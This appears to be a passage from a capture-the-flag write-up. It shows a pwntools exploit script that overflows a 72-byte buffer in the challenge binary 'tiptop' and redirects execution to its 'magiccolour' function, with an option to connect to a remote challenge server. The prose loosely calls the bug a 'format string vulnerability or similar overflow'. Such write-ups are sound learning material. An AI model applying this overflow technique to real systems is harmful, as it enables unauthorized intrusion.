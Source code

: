 This pwn challenge required exploiting a buffer overflow to hijack control flow. Analyzing the `tiptop` binary, I identified a format string vulnerability or similar overflow where I could overwrite the return address. My goal was to call the `magiccolour` function.

Here's the `pwntools` exploit script I used:



```python
from pwn import *

# Load the ELF binary and set context
elf = context.binary = ELF('./tiptop')
context.terminal = ['kitty', '-e']  # Change this if you use a different terminal emulator

# GDB debugging script: set breakpoints at main and magic_menu
gdb_script = '''
b *main
b *magic_menu
'''

# Set up process based on execution context
if args.REMOTE:
    p = remote('4.240.104.200', 6974)
elif args.GDB:
    p = gdb.debug(elf.path, gdbscript=gdb_script)
else:
    p = process(elf.path)

# ========== Exploit Details ========== #

# Buffer overflow: Overflow 72 bytes to reach return address
# Add a 'ret' instruction to align the stack (needed on some systems for ROP)
ret_gadget = 0x401016

# Target function we want to call
target_function = elf.sym['magiccolour']

# Construct payload: padding + ret + target address
payload = b'A' * 72 + p64(ret_gadget) + p64(target_function)

# Interact with the menu and trigger the overflow
p.recvuntil(b'5. Orange\n')     # Wait until menu options are printed
p.sendline(b'4')                # Choose option 4 to reach the vulnerable code path
p.sendline(payload)            # Send our crafted payload

# Get interactive shell or output
p.interactive()

```

---

## Tic Tac Toe - Web
